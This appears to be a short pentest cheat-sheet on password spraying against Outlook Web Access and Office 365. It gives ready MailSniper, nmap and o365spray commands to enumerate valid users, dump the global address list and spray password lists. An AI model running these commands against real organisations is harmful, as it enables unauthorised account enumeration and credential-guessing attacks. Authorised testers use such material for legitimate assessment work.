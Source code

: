 # Different Password Spraying tools and methods

## MailSniper[^1]
* Advantages
    * `Invoke-UsernameHarvestOWA` is very useful
    * `Get-GlobalAddressList` is awesome
        * bypasses 2FA in Office 365
        * Easily dump list from OWA & Office 365

```powershell
Invoke-UsernameHarvestOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Threads 1 -OutFile owa-valid-users.txt
Get-GlobalAddressList -ExchHostname outlook.office365.com -UserName user2@domain.com -Password "P@ssw0rd" -OutFile global-address-list.txt
```

## Find OWA Domain
### NMAP
```
nmap -p 443 -Pn -v mail.domain.com --script http-ntlm-info --script-args http-ntlm-info.root=/rpc/rpcproxy.dll
```

## o365spray[^2]
```
python3 o365spray.py --spray -U usernames.txt -P passwords.txt --count 2 --lockout 5 --domain test.com
```


[^1]: [Github - Dafthack - MailSniper](https://github.com/dafthack/MailSniper)
[^2]: [Github - o365spray](https://github.com/0xZDH/o365spray)
